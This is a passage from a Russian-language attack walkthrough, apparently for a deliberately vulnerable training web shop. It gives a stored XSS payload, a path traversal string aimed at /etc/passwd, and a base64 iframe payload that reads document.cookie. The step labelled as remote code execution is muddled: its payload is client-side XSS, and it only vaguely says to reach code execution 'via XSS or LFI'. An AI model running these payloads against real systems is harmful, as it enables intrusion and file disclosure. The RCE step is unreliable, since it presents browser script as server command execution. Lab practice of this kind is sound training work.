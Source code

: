 2. При отображении результатов скрипт выполнится.
    

**2.2. Хранимый XSS (отзывы):**

1. Оставьте отзыв на продукт с содержимым:
    

html

Copy

Download

Run

<img src=x onerror=alert("Stored XSS")>  

2. При открытии страницы с отзывами скрипт активируется.
    

---

### Шаг 3: Path Traversal

**Цель:** Прочитать файл `/etc/passwd`.

1. Перейдите в раздел **"File Complaint"**.
    
2. В поле **"Choose file"** укажите путь:
    

text

Copy

Download

../../../../etc/passwd  

3. Отправьте форму. Сервер вернёт содержимое файла.
    

---

### Шаг 4: Получение RCE

**Цель:** Выполнить команду `id` на сервере.

1. Воспользуйтесь уязвимостью загрузки файлов (раздел **"Your Basket"** → **"Checkout"** → **"Choose File"**).
    
2. Загрузите файл с расширением `.md` и содержимым:
    

markdown

Copy

Download

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpPC9zY3JpcHQ+" />  

3. Через XSS или LFI добейтесь выполнения кода.
    